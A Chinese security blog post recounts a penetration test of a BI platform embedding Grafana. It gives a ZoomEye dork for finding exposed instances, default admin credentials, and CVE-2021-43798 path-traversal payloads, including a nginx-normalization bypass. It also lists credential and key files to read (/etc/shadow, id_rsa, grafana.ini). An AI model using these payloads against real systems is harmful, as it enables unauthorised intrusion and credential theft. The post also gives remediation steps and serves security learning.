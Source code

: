 #  某易BI平台渗透之旅

天明  [ 潇湘信安 ](javascript:void\(0\);)

**潇湘信安** ![]()

微信号 xxxasec

功能介绍 一个不会编程、挖SRC、代码审计的安全爱好者，主要分享一些安全经验、渗透思路、奇淫技巧与知识总结。

____

___发表于_

收录于合集

#实战案例 121 个

#渗透技巧 29 个

**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
---  
  
  

 **0x01 前言**

这篇文章由"潇湘信安技术交流群"@天明师傅投稿，记录的是他在公司某个安服项目中碰到了这个BI平台，机缘巧合之下发现了这个通用漏洞，特意投稿分享下经验。  

  

 **0x02  渗透之旅**

刚开始采用awvs、afrog和nuclei进行全量的漏洞扫描时未有任何发现，后面尝试目录探测时有了新的发现。  

  

####  **峰回路转之dirsearch的救赎**

  *   *   *   *   *   * 

    
    
     [09:42:33] 200 -   32KB - /monitoring/                                      [09:42:33] 200 -   32KB - /monitor/[09:42:33] 200 -   32KB - /monitoring[09:42:34] 200 -   32KB - /monitor   
    [09:41:39] 200 -  751B  - /callback

  

/monitoring/、/monitor/这俩路径绝对会触发302跳转，callback则是随机，可能触发跳转。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084031.png)  

这个就是今天的主角。

  

正常请求BI平台：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084042.png)  

zoomeye dork

  * 

    
    
    iconhash:"dfbaaf8af7911cfb7eb068d8b19f6799"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084043.png)  

影响范围：仅在V 7.20版本测试成功。

  

版本号可以根据页面当中的用户手册来判断。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084044.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084045.png)

  

####  **思路1-默认口令**

默认口令：admin
admin，不知道其他目标如何，至少我碰上的目标未修改。不过即使修改了也无伤大雅，有一个文件读取漏洞等着你，可以搞到grafana的账号密码。

  

####  **思路2-Grafana文件读取**

CVE-2021-43798这个漏洞信息的部分可自行百度了解，此处单刀直入，直接说利用细节。

  

 **最初的验证POC为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **此处利用应修改为：**

  * 

    
    
     /monitor/public/plugins/grafana-clock-panel/../../../../../../../../etc/passwd

  

 **注：**
一般情况下就成了，如果对方使用了nginx/apache反代，中间件的URI_normalization机制导致URL被标准化。此时原有payload就会失效，服务端会爆400错误。如下图所示：

  *   *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.conf  
    server {    listen         8081;    server_name    127.0.0.1;    charset        utf-8;    location / {        proxy_pass http://192.168.1.100:3000;    }}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084046.png)  

此时可采用bypass 400的payload进行绕过，payload为：

  * 

    
    
    /monitor/public/plugins/text/#/../../../../../../../../../../etc/passwd

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084047.png)  

深入利用

  *   * 

    
    
    /etc/grafana/grafana.ini         #grafana控制台的管理员明文密码/var/lib/grafana/grafana.db      #控制台其他账户

  

/etc/grafana/grafana.ini

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084049.png)  

linux文件遍历，此处只举出比较重要的，更全面的可以参考Web-Fuzzing-Box的Linux_File.txt

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    /conf/defaults.ini/etc/grafana/grafana.ini/etc/passwd/etc/shadow/home/grafana/.bash_history/home/grafana/.ssh/id_rsa/root/.bash_history/root/.ssh/id_rsa/usr/local/etc/grafana/grafana.ini/var/lib/grafana/grafana.db/proc/net/fib_trie/proc/net/tcp/proc/self/cmdline

  

关于nginx proxy error 400相关文章可参考，这里我用的是第二篇文章里的一个payload。

  *   * 

    
    
    https://articles.zsxq.com/id_baeb9hmiroq5.html    https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/#_Nginx_400

  

####  **关于CVE-2021-43798的修复**

  1. 升级到安全版本，即版本号>8.3.0。
  2. 临时防御：修改proxy_grafana的配置如下所示：

 **Tips** ：重点是proxy_pass的端口号后一定要加上`/`

  *   *   *   *   *   *   *   *   * 

    
    
    # proxy_grafana.confserver {listen         8081;server_name    127.0.0.1;charset        utf-8;location / {proxy_pass http://192.168.1.100:3000/;    }}

  

 **0x03 参考文章**

  *   * 

    
    
     https://github.com/jas502n/Grafana-CVE-2021-43798https://blog.riskivy.com/grafana-任意文件读取漏洞分析与汇总cve-2021-43798/

  

* * *

 **关 注 有 礼**

  
  
关注公众号回复“9527”可以领取一套HTB靶场文档和视频，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，“2191”潇湘信安文章打包，“1212”杀软对比源码+数据源，“0421”Windows提权工具包。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084050.png)
还在等什么？赶紧点击下方名片关注学习吧！![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084050.png)

* * *

 **推 荐 阅 读**

  
  
  
[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084052.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247491360&idx=1&sn=e4c3d356b45d7fe821dc2b645f30a595&chksm=cfa6bb33f8d132259884026238db7b79f33da3f3fff2f90a87e4a447118a1be8c4e948031d8f&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084053.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084054.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

* * *

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221109084055.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

